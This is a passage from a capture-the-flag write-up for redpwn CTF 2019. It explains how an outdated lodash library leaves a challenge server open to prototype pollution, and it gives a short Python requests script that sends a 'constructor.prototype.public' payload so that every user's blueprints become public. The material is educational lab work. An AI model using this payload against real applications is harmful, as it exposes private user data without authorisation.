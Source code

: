Note that _ is actually the lodash module. The thing is that this module is outdated :

<div>
<center><img src="/images/redpwn_ctf_2019_writeup/image-18.png"></center>
</div>

<div>
<center><img src="/images/redpwn_ctf_2019_writeup/image-19.png"></center>
</div>

The server is using a version of lodash that is vulnerable to prototype pollution. This means that we can manipulate the properties of all the user’s blueprints. Read more about it [here](https://snyk.io/vuln/SNYK-JS-LODASH-450202).

The following script will make all of your blueprints public (including the one that contains the flag):

{% highlight python %}
import requests

user_id = "842a0d122445ccd22931d1d84eba5295"
url = "http://chall2.2019.redpwn.net:8002/make"

r = requests.post(url, cookies={"user_id": user_id}, json={"content":"yakuhito was here",
"public":True, "constructor": {"prototype": {"public": True}}})

print(r.text)

{% endhighlight %}

After you run the script, just access the site and get the flag:
